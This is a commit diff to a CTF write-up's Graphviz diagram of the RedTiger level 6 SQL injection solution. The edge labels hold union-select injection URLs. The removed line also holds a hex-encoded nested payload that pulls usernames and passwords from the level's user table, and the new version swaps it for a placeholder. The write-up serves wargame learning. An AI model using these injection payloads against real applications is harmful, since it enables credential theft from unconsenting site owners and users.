

Before and after one commit to joizel/ctf_writeup: the diagram in docs/web/[redtiger] level6.rst, drawn with Graphviz. The commit also changed other lines of this file and 2 other files, not shown here.

Commit message:
replace
replace

```diff
--- a/docs/web/[redtiger] level6.rst
+++ b/docs/web/[redtiger] level6.rst
@@ -5,23 +5,23 @@
 .. graphviz::
 
     digraph G {
         rankdir="LR";
         node[shape="point"];
         edge[arrowhead="none"]
 
         {
             rank="same";
             "client"[shape="plaintext"];
             "client" -> step0 -> step2 -> step4 -> step6 -> step8;
         }
 
         {
             rank="same";
             "server"[shape="plaintext"];
             "server" -> step1 -> step3 -> step5 -> step7 -> step9;
         }
         step0 -> step1[label="level6.php?user=0 union select %s from level6_users--",arrowhead="normal"];
         step3 -> step2[label="column length",arrowhead="normal"];
-        step4 -> step5[label="level6.php?user=0 union select 1,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,3,4,5 from level6_users-- ",arrowhead="normal"];
+        step4 -> step5[label="level6.php?user=0 union select 1,(HEX문),3,4,5 from level6_users-- ",arrowhead="normal"];
         step7 -> step6[label="@solve",arrowhead="normal"];
     }
```
